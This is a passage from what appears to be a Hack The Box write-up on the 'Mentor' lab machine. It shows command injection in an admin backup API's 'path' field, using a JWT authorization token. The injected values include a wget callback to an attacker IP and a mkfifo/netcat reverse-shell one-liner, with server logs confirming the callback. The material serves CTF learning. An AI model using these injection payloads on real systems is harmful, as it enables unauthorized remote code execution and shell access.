I don't really know what they are doing in the backend, but we can try some command injection point just in case.&#x20;

{% code overflow="wrap" %}
```
$ curl -X POST http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' -H 'Content-Type: application/json' -d '{"path":"/etc/passwd; wget 10.10.14.13/rcecfm"}' | jq

{
  "INFO": "Done!"
}
// in another shell
┌──(kali㉿kali)-[~/htb/mentor]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.228.102 - - [08/May/2023 11:01:18] code 404, message File not found
10.129.228.102 - - [08/May/2023 11:01:18] "GET /rcecfm/app_backkup.tar HTTP/1.1" 404
```
{% endcode %}

This was using `tar` on something, but more importantly our RCE worked. We can easily get a reverse shell using this after specifying some random `body` parameter:

{% code overflow="wrap" %}
```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 112

{
"body":"test",
"path": "test;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.13 443 >/tmp/f;"
}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (651).png" alt=""><figcaption></figcaption></figure>
